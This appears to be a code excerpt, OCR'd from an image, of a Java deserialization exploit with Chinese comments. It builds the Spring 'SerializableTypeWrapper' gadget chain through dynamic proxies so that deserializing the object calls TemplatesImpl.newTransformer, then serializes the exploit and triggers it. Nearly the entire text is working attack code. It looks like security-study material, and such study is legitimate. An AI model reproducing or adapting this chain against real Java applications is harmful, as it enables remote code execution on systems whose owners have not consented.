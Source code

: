 ```java
        // 使用动态代理初始化 AnnotationInvocationHandler
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map);

        // 使用 AnnotationInvocationHandler 动态代理 ObjectFactory 的 getObject 方法, 使其返回 TemplatesImpl
        ObjectFactory<?> factory = (ObjectFactory<?>) Proxy.newProxyInstance(
                ClassLoader.getSystemClassLoader(), new Class[]{ObjectFactory.class}, invocationHandler);

        // ObjectFactoryDelegatingInvocationHandler 的 invoke 方法触发 ObjectFactory 的 getObject
        // 并且会调用 method.invoke(返回值, args)
        // 此时返回值被我们使用动态代理改为了 TemplatesImpl
        // 接下来需要 method 是 newTransformer(), 就可以触发调用链了
        Class<?> bClass = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> ofdConstructor = bClass.getDeclaredConstructors()[0];
        ofdConstructor.setAccessible(true);

        // 使用动态代理出的 ObjectFactory 类实例化 ObjectFactoryDelegatingInvocationHandler
        InvocationHandler ofdHandler = (InvocationHandler) ofdConstructor.newInstance(factory);

        // ObjectFactoryDelegatingInvocationHandler 本身就是个 InvocationHandler
        // 使用它来代理一个类，这样在这个类调用时将会触发 ObjectFactoryDelegatingInvocationHandler 的 invoke 方法
        // 我们用它代理一个既是 Type 类型又是 Templates(TemplatesImpl 父类) 类型的类
        // 这样这个代理类同时拥有两个类的方法，既能被强转为 TypeProvider.getType() 的返回值, 又可以在其中找到 newTransformer 方法
        Type typeTemplateProxy = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{Type.class, Templates.class}, ofdHandler);

        // 接下来代理  TypeProvider 的 getType() 方法, 使其返回我们创建的 typeTemplateProxy 代理类
        HashMap<String, Object> map2 = new HashMap<>();
        map2.put("getType", typeTemplateProxy);
        InvocationHandler newInvocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map2);

        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        // 使用 AnnotationInvocationHandler 动态代理 TypeProvider 的 getType 方法, 使其返回 typeTemplateProxy
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{typeProviderClass}, newInvocationHandler);


        // 初始化 MethodInvokeTypeProvider
        Class<?>       clazz2 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> cons   = clazz2.getDeclaredConstructors()[0];
        cons.setAccessible(true);

        // 由于 MethodInvokeTypeProvider 初始化时会立即调用 ReflectionUtils.invokeMethod(method, provider.getType())
        // 所以初始化时我们随便给个 Method, methodName 我们使用反射写进去
        Object objects = cons.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        Field  field   = clazz2.getDeclaredField("methodName");
        field.setAccessible(true);
        field.set(objects, "newTransformer");

        // 生成 exp
        String exp = serialize(objects);
        System.out.println(exp);
        // 触发 exp
        unserialize(exp);
    }
}
```
